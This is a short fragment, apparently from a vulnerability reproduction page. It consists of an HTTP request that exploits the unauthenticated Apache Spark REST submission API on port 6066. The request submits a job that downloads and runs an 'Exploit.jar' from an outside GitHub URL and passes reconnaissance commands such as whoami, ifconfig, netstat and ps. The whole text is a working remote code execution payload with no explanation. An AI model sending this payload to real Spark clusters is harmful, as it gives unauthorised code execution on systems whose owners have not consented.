 `POST /v1/submissions/create HTTP/1.1`
`Host: your-ip:6066`
`Accept-Encoding: gzip, deflate`
`Accept: */*`
`Accept-Language: en`
`User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)`
`Content-Type: application/json`
`Connection: close`
`Content-Length: 680`

`{`
  `"action": "CreateSubmissionRequest",`
  `"clientSparkVersion": "2.3.1",`
  `"appArgs": [`
    `"whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"`
  `],`
  `"appResource": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",`
  `"environmentVariables": {`
    `"SPARK_ENV_LOADED": "1"`
  `},`
  `"mainClass": "Exploit",`
  `"sparkProperties": {`
    `"spark.jars": "https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar",`
    `"spark.driver.supervise": "false",`
    `"spark.app.name": "Exploit",`
    `"spark.eventLog.enabled": "true",`
    `"spark.submit.deployMode": "cluster",`
    `"spark.master": "spark://your-ip:6066"`
  `}`
`}`